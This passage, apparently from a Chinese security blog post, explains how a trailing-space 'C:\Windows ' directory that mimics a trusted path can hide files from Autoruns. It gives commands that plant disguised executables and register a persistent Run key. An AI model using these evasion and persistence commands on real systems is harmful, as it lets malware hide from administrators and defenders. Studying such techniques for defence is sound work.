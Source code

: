 ```yaml
---
layout: post
title: 模拟可信目录的利用技巧扩展
---
```



## 0x00 前言
---

在上篇文章[《通过模拟可信目录绕过UAC的利用分析》](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87%E6%A8%A1%E6%8B%9F%E5%8F%AF%E4%BF%A1%E7%9B%AE%E5%BD%95%E7%BB%95%E8%BF%87UAC%E7%9A%84%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)对通过模拟可信目录绕过UAC的方法进行了分析，本文将结合自己的经验，继续介绍模拟可信目录的另外三种利用技巧，最后给出防御建议

## 0x01 简介
---

本文将要介绍以下内容：

- 利用模拟可信目录绕过Autoruns
- 利用模拟可信目录欺骗ShimCache
- 利用模拟可信目录伪造正常的UAC弹框

## 0x02 利用模拟可信目录绕过Autoruns
---

绕过原理：

Autoruns默认不显示带有微软签名的文件，如果文件包含微软签名，默认不会显示在Autoruns面板

在Windows系统的启动位置写入模拟可信目录下的文件，由于被识别为正常带有微软签名的文件，默认将不会显示在Autoruns面板

经过测试，并不适用于所有的启动位置，具体测试如下：

创建模拟的可信目录，添加测试文件：

```
md "\\?\c:\windows "
md "\\?\c:\windows \system32"
copy c:\test\putty.exe "\\?\c:\windows \system32\notepad.exe"
copy c:\test\calc.dll "\\?\c:\windows \system32\atl.dll"
```

### 1、注册启动项`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

系统启动时启动文件`"C:\Windows \System32\notepad.exe"`，添加注册表的命令如下：

```
reg add hklm\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v RunTest /t REG_SZ /d "\"c:\windows \system32\notepad.exe\""
```

**注：**
